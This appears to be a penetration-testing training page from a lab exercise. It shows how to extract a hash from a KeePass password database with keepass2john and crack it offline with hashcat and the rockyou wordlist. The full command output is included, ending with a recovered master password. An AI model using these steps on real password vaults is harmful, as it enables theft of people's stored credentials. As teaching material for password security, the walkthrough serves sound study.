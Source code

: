 
## Password Managers

#### Extracting KeePass Hash

``` shell-session
[!bash!]$ python2.7 keepass2john.py ILFREIGHT_Help_Desk.kdbx 

ILFREIGHT_Help_Desk:$keepass$*2*60000*222*f49632ef7dae20e5a670bdec2365d5820ca1718877889f44e2c4c202c62f5fd5*2e8b53e1b11a2af306eb8ac424110c63029e03745d3465cf2e03086bc6f483d0*7df525a2b843990840b249324d55b6ce*75e830162befb17324d6be83853dbeb309ee38475e9fb42c1f809176e9bdf8b8*63fdb1c4fb1dac9cb404bd15b0259c19ec71a8b32f91b2aaaaf032740a39c154
```

#### Cracking Hash Offline

``` shell-session
[!bash!]$ hashcat -m 13400 keepass_hash /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt

hashcat (v6.1.1) starting...

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$keepass$*2*60000*222*f49632ef7dae20e5a670bdec2365d5820ca1718877889f44e2c4c202c62f5fd5*2e8b53e1b11a2af306eb8ac424110c63029e03745d3465cf2e03086bc6f483d0*7df525a2b843990840b249324d55b6ce*75e830162befb17324d6be83853dbeb309ee38475e9fb42c1f809176e9bdf8b8*63fdb1c4fb1dac9cb404bd15b0259c19ec71a8b32f91b2aaaaf032740a39c154:panther1
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: KeePass 1 (AES/Twofish) and KeePass 2 (AES)
Hash.Target......: $keepass$*2*60000*222*f49632ef7dae20e5a670bdec2365d...39c154
Time.Started.....: Fri Aug  6 11:17:47 2021 (22 secs)
Time.Estimated...: Fri Aug  6 11:18:09 2021 (0 secs)
Guess.Base.......: File (/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      276 H/s (4.79ms) @ Accel:1024 Loops:16 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 6144/14344385 (0.04%)
Rejected.........: 0/6144 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:59984-60000
Candidates.#1....: 123456 -> iheartyou

Started: Fri Aug  6 11:17:45 2021
Stopped: Fri Aug  6 11:18:11 2021
```

